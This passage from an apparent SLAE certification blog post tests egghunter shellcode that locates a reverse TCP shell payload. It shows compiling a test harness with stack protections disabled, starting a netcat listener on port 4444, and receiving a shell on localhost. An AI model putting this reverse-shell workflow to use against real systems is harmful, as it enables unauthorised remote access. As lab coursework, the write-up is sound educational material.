 As explained in the testing of `shell_reverse_tcp`, the same general steps should be taken here to test the `egghunter` shellcode. If the `egghunter` shellcode successfully locates the egg that prepends `shell_reverse_tcp`, a reverse shell will be returned to the listening system on a specified IP address and port. The entire process is outlined again below.

The above program is compiled using the command shown below, as suggested in the commented program code.

```shell
root@kali:~/workspace/SLAE# gcc -m32 -fno-stack-protector -z execstack sc_test.c -o sc_test
```

Before `sc_test` is executed, a `nc` or `ncat` listener should be set up in a seperate terminal window to act as the remote system to which the reverse shell should connect to. 

```shell
root@kali:~/workspace/SLAE# nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

The default IP address used in the `shell_reverse_tcp` shellcode is `127.0.0.1` and the default listening port is `4444`. Once the listener is configured, running `sc_test` results in a shell on the system, which confirms that the `egghunter` shellcode succesfully located the `shell_reverse_tcp` shellcode prepended by the `\x90\x50\x90\x50\x90\x50\x90\x50` egg.

In the terminal window that runs `sc_test`:

```shell
root@kali:~/workspace/SLAE# ./sc_test
Egghunter Length: 35
Shellcode Length: 96
```

And in the terminal window that runs `nc`:

```shell
root@kali:~/workspace/SLAE# nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:41410.
ls -lah | grep egghunter
-rwxr-xr-x  1 root root 4.5K Oct 13 22:17 egghunter
-rw-r--r--  1 root root  489 Oct 13 22:17 egghunter.nasm
-rw-r--r--  1 root root  512 Oct 13 22:17 egghunter.o
```

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

